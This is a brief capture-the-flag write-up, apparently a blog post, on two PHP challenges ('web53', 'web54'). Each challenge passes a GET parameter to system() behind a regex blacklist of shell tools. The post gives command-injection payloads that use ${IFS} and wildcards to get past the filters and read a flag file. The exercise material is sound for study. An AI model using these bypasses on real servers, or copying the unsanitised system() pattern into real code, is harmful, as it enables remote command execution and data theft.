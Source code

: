 ## web53

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
} 
```

```bash
/?c=nl${IFS}fla?.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/1358d1b7b8db9639d9d73846aa2e61f2.png" alt="" style="max-height:207px; box-sizing:content-box;" />




## web54  c=/bin/?at${IFS}fla?????

```php
 
 
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3924f5c8a3dbc36dc256ff09e5afef78.png" alt="" style="max-height:201px; box-sizing:content-box;" />




发现nl也过滤了

这里还有其他读取的方式
